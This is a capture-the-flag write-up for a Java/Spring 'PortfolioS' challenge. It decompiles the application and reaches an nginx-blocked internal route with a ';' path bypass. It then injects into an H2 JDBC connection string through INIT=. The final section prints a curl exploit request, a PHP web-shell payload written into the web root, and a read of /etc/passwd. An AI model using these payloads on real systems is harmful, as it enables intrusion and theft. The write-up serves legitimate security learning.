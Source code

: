 # PortfolioS

### Resources

#### 1. H2 database

([https://www.h2database.com/h2.pdf](https://www.h2database.com/h2.pdf))

{% embed url="https://www.h2database.com/html/features.html" %}

{% embed url="https://www.baeldung.com/java-h2-executing-sql-scripts" %}

{% embed url="https://www.h2database.com/html/grammar.html" %}

#### 2. SQL to RCE

{% embed url="https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/select-into.html" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/string-functions.html#function_load-file" %}

#### 3. Others

{% embed url="https://bksec.vn/blog/writeup-cscv-2025" %}

{% embed url="https://github.com/awslabs/aws-mysql-jdbc/security/advisories/GHSA-vj9v-mpjv-qf74" %}

{% embed url="https://stackoverflow.com/questions/3833578/linux-command-for-extracting-war-file" %}



### Analysis of the configuration files

1. `nginx.conf`

```nginx
events {}

http {
    server {
        listen 80;

        location = /internal/testConnection {
            return 403;
        }

        location / {
            proxy_pass http://app:8989;

            proxy_set_header Host $host:8989;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

* We can see that the `/internal/testConnection` route is filtered, and returns a 403 response.

### 1. Extraction and analysis of source code

...

#### 1.1 Extract files from `.war`

```sh
$ sudo apt install default-jdk
$ jar xvf /path/to/portfolio.war
```

#### 1.2 Decompile selected .class files

*   There are a few files of interest:

    1\) `WEB-INF/classes/com/ctf/portfolio/controller/AuthController.class`

    2\) `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class`

    3\) ...



* We can use the **CFR Java Decompiler**
  * Install the `cfr-xxx.jar` file from the [Github ](https://github.com/leibnitz27/cfr)repository release page (filename depends on the current version):

```sh
$ java -jar cfr-xxx.jar <to-decompile>.class
```

* Alternatively, we can use directly open any `.class` file in an editor such as Visual Studio Code, which will automatically decompile it.

#### 1.3 Analysis of the source cod`e`

a. From the import statements defined in the `.class` files, we can identify that the Spring framework is used

b. From the `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class` file, we can identify that H2 database is in use:

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>



### 2. Exploring the H2 database configuration

From the `internalController.class`  file we have analyzed previously, we see the definition for the **POST** `/internal/testConnection` route:

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Notice that the `fullUrl` variable is crafted from an input that we can control. This variable is used as an  argument to the `DriverManager.getConnection()` function.&#x20;

With this, we have an interesting attack vector. However, remember that the `/internal/testConnection` route returns a 403 error?&#x20;

#### 2.1 nginx + spring boot

{% embed url="https://blog.1nf1n1ty.team/hacktricks/pentesting-web/proxy-waf-protections-bypass#spring-boot" %}

From enumeration, we can identify that the Nginx is running on version 1.20.2 (_**Server**_ field from the HTTP response headers). Fortunately for us, that particular version of Nginx has a character bypass vulnerability such that it doesn't remove a certain few characters (during normalization), which are removed by the Spring boot server. The characters are:

```
\x09, ;
```

Hence, if we send a request to the `/internal/testConnection\0x09` or `/internal/testConnection;` routes, it will successfully bypass the Nginx filters, and be forwarded to the Spring boot server which will remove the specified bypass characters. This will allow us to send a request to the `/internal/testConnection` route as if the Nginx filter is not present.

#### 2.2 Exploiting the unsanitized input to the `.getConnection()` function

> Refer to the links above for more information regarding H2 database, and how to execute SQL commands, and escalate to RCE from there

{% code overflow="wrap" %}
```sh
$ curl -X POST "http://<target>/internal/testConnection;" -H "Cookie: JSESSIONID=xxxx" -H "content-type: application/json" -d "username=sa&password=;INIT=<SQL>;"
```
{% endcode %}

* `<SQL>` can be replaced with any SQL commands:

{% code overflow="wrap" %}
```sql
SELECT "<? echo passthru($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'
SELECT load_file("/etc/passwd") from information_schema
...

```
{% endcode %}

